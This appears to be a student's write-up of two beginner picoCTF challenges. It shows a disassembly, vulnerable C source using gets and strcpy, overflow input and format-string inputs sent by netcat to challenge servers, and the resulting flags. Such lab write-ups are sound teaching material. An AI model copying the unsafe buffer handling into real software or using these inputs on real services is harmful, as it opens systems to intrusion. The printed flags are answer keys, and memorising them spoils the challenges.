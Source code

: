 # Binary_Exploitation
## Challenge 1: Buffer Overflow 0
I started off by checking the file details of the source and program files as I wasn’t sure of how to begin. 
```
mahikakapil@Mahikas-MacBook-Air cryptonite_tp2_Mahika % file vuln
vuln: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=b53f59f147e1b0b087a736016a44d1db6dee530c, for GNU/Linux 3.2.0, not stripped
```
mahikakapil@Mahikas-MacBook-Air cryptonite_tp2_Mahika % file vuln.c
vuln.c: c program text, ASCII text

Then I viewed the assembly code
```
(lldb) target create vuln
Current executable set to '/Users/mahikakapil/cryptonite_tp2_Mahika/vuln' (i386).
(lldb) disassemble -n main
vuln`main:
vuln[0x1382] <+0>:   endbr32 
vuln[0x1386] <+4>:   leal   0x4(%esp), %ecx
vuln[0x138a] <+8>:   andl   $-0x10, %esp
vuln[0x138d] <+11>:  pushl  -0x4(%ecx)
vuln[0x1390] <+14>:  pushl  %ebp
vuln[0x1391] <+15>:  movl   %esp, %ebp
vuln[0x1393] <+17>:  pushl  %ebx
vuln[0x1394] <+18>:  pushl  %ecx
vuln[0x1395] <+19>:  subl   $0x70, %esp
vuln[0x1398] <+22>:  calll  0x1210                    ; __x86.get_pc_thunk.bx
vuln[0x139d] <+27>:  addl   $0x2c0f, %ebx             ; imm = 0x2C0F 
vuln[0x13a3] <+33>:  subl   $0x8, %esp
vuln[0x13a6] <+36>:  leal   -0x1fa4(%ebx), %eax
vuln[0x13ac] <+42>:  pushl  %eax
vuln[0x13ad] <+43>:  leal   -0x1fa2(%ebx), %eax
vuln[0x13b3] <+49>:  pushl  %eax
vuln[0x13b4] <+50>:  calll  0x11b0                    ;  + 160
vuln[0x13b9] <+55>:  addl   $0x10, %esp
vuln[0x13bc] <+58>:  movl   %eax, -0xc(%ebp)
vuln[0x13bf] <+61>:  cmpl   $0x0, -0xc(%ebp)
vuln[0x13c3] <+65>:  jne    0x13ef                    ; <+109>
vuln[0x13c5] <+67>:  subl   $0x4, %esp
vuln[0x13c8] <+70>:  leal   -0x1f99(%ebx), %eax
vuln[0x13ce] <+76>:  pushl  %eax
vuln[0x13cf] <+77>:  leal   -0x1f84(%ebx), %eax
vuln[0x13d5] <+83>:  pushl  %eax
vuln[0x13d6] <+84>:  leal   -0x1f4f(%ebx), %eax
vuln[0x13dc] <+90>:  pushl  %eax
vuln[0x13dd] <+91>:  calll  0x1110
vuln[0x13e2] <+96>:  addl   $0x10, %esp
vuln[0x13e5] <+99>:  subl   $0xc, %esp
vuln[0x13e8] <+102>: pushl  $0x0
vuln[0x13ea] <+104>: calll  0x1190                    ;  + 128
vuln[0x13ef] <+109>: subl   $0x4, %esp
vuln[0x13f2] <+112>: pushl  -0xc(%ebp)
vuln[0x13f5] <+115>: pushl  $0x40
vuln[0x13f7] <+117>: leal   0x94(%ebx), %eax
vuln[0x13fd] <+123>: pushl  %eax
vuln[0x13fe] <+124>: calll  0x1140                    ;  + 48
vuln[0x1403] <+129>: addl   $0x10, %esp
vuln[0x1406] <+132>: subl   $0x8, %esp
vuln[0x1409] <+135>: leal   -0x2c9f(%ebx), %eax
vuln[0x140f] <+141>: pushl  %eax
vuln[0x1410] <+142>: pushl  $0xb
vuln[0x1412] <+144>: calll  0x1150                    ;  + 64
vuln[0x1417] <+149>: addl   $0x10, %esp
vuln[0x141a] <+152>: calll  0x1160                    ;  + 80
vuln[0x141f] <+157>: movl   %eax, -0x10(%ebp)
vuln[0x1422] <+160>: subl   $0x4, %esp
vuln[0x1425] <+163>: pushl  -0x10(%ebp)
vuln[0x1428] <+166>: pushl  -0x10(%ebp)
vuln[0x142b] <+169>: pushl  -0x10(%ebp)
vuln[0x142e] <+172>: calll  0x11c0                    ;  + 176
vuln[0x1433] <+177>: addl   $0x10, %esp
vuln[0x1436] <+180>: subl   $0xc, %esp
vuln[0x1439] <+183>: leal   -0x1f49(%ebx), %eax
vuln[0x143f] <+189>: pushl  %eax
vuln[0x1440] <+190>: calll  0x1110
vuln[0x1445] <+195>: addl   $0x10, %esp
vuln[0x1448] <+198>: movl   0x48(%ebx), %eax
vuln[0x144e] <+204>: movl   (%eax), %eax
vuln[0x1450] <+206>: subl   $0xc, %esp
vuln[0x1453] <+209>: pushl  %eax
vuln[0x1454] <+210>: calll  0x1120                    ;  + 16
vuln[0x1459] <+215>: addl   $0x10, %esp
vuln[0x145c] <+218>: subl   $0xc, %esp
vuln[0x145f] <+221>: leal   -0x74(%ebp), %eax
vuln[0x1462] <+224>: pushl  %eax
vuln[0x1463] <+225>: calll  0x1130                    ;  + 32
vuln[0x1468] <+230>: addl   $0x10, %esp
vuln[0x146b] <+233>: subl   $0xc, %esp
vuln[0x146e] <+236>: leal   -0x74(%ebp), %eax
vuln[0x1471] <+239>: pushl  %eax
vuln[0x1472] <+240>: calll  0x1353                    ; vuln
vuln[0x1477] <+245>: addl   $0x10, %esp
vuln[0x147a] <+248>: subl   $0xc, %esp
vuln[0x147d] <+251>: leal   -0x1f41(%ebx), %eax
vuln[0x1483] <+257>: pushl  %eax
vuln[0x1484] <+258>: calll  0x1180                    ;  + 112
vuln[0x1489] <+263>: addl   $0x10, %esp
vuln[0x148c] <+266>: movl   $0x0, %eax
vuln[0x1491] <+271>: leal   -0x8(%ebp), %esp
vuln[0x1494] <+274>: popl   %ecx
vuln[0x1495] <+275>: popl   %ebx
vuln[0x1496] <+276>: popl   %ebp
vuln[0x1497] <+277>: leal   -0x4(%ecx), %esp
vuln[0x149a] <+280>: retl   
```
I also tried connecting to the program using `nc saturn.picoctf.net 53460` which gave a prompt for input and then exited. 

mahikakapil@Mahikas-MacBook-Air cryptonite_tp2_Mahika % nc saturn.picoctf.net 53460
Input: hello
The program will exit now

Then I decided to analyze the program.
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}

```
Here, the function vuln takes an input in the array buf2 of maximum 16 characters. So I inputted more than 16 random characters and got the flag by overflowing the buffer. The assembly code didn’t really come in use here.
```
mahikakapil@Mahikas-MacBook-Air cryptonite_tp2_Mahika % nc saturn.picoctf.net 54932
Input: djakcnjIJSDCAJCJNDJLdjnjljcjhdhafhijldadefrefdsfghytrf
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```


-Errors and mistakes:
1. I ran the command `lldb vuln.c ` but this resulted in the following error:
```
mahikakapil@Mahikas-MacBook-Air cryptonite_tp2_Mahika % lldb vuln.c     
(lldb) target create "vuln.c"
error: '/Users/mahikakapil/cryptonite_tp2_Mahika/vuln.c' doesn't contain any 'host' platform architectures: arm64, armv7, armv7f, armv7k, armv7s, armv7m, armv7em, armv6m, armv6, armv5, armv4, arm, thumbv7, thumbv7k, thumbv7s, thumbv7f, thumbv7m, thumbv7em, thumbv6m, thumbv6, thumbv5, thumbv4t, thumb, x86_64, x86_64, arm64, arm64e, arm64, arm64e
``` 
I had to use the source code file instead as it was an ELF file. Later, I realized that this challenge could be done without the assembly code.

FLAG: picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}

## Challenge 2:   Format string 0
To start off, I used the nectar command provided in the challenge description`nc mimas.picoctf.net 57587` on terminal to connect with the challenge instance. This gave the following output:
```
mahikakapil@Mahikas-MacBook-Air cryptonite_tp2_Mahika % nc mimas.picoctf.net 57587
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: 
```
Then I decided to take a look at the c program to understand what the code is about. 
￼
This part of the code caught my eye. I had to input a recommendation whose size would be greater than 2* BUFSIZE that is 64 bytes. So I entered `Gr%114d_Cheese` which had a format specifier %114d which added 114 whitespaces in the output. The code then ran the serve_bob() function.

```
Enter your recommendation:  Gr%114d_Cheese
Gr                                                                                                           
                               4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: 
```
￼
Here, I entered Cla%sic_Che%s%steak as the recommendation as it had 3 string format specifiers %s which I thought would print the flag.
```
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}
```

FLAG: picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}
